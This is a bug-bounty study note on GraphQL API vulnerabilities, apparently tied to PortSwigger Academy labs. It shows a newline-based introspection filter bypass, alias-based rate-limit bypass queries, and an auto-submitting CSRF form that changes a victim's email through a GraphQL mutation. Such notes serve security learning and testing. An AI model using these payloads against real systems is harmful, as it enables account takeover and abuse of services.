





# GraphQL API vulnerabilities

GraphQL -> Set instrospection query
GraphQL -> Save GraphQL queries to sitemap



____

When developers disable introspection, they could use a regex to exclude the `__schema` keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.

```json
{ "query": "query{__schema {queryType{name}}}" }
```

Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`

```text
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```



Add `%0a` --> \n





____

 Bypassing rate limiting using aliases

```text
# Request with aliased queries
query isValidDiscount($code: Int) {
  isvalidDiscount(code: $code) {
    valid
  }
  isValidDiscount2: isvalidDiscount(code: $code) {
    valid
  }
  isValidDiscount3: isvalidDiscount(code: $code) {
    valid
  }
}
```



____
CSRF vulnerabilities can arise where a GraphQL endpoint does not validate the content type of the requests sent to it and no CSRF tokens are implemented.

POST requests that use a content type of `application/json` are secure against forgery as long as the content type is validated. In this case, an attacker wouldn't be able to make the victim's browser send this request even if the victim were to visit a malicious site.

However, alternative methods such as GET, or any request that has a content type of `x-www-form-urlencoded`, can be sent by a browser and so may leave users vulnerable to attack if the endpoint accepts these requests. Where this is the case, attackers may be able to craft exploits to send malicious requests to the API.

```html
<html>
  <body>
    <form id="csrfForm" action="https://0ab4005c03ce773980ee1ce500280052.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value='mutation changeEmail { changeEmail(input: { email: "redacted@example.invalid" }) { email } }'>
    </form>
    <script>
      document.getElementById('csrfForm').submit();
    </script>
  </body>
</html>
```

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | Study/GraphQL API vulnerabilities.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

Se han sustituido valores literales de autenticación o direcciones de correo por marcadores. Los detalles sin valores están en [el registro de redacciones](../../Resources/Audit/redactions.csv).

[Índice de categoría](../README.md) · [Inicio](../../README.md)
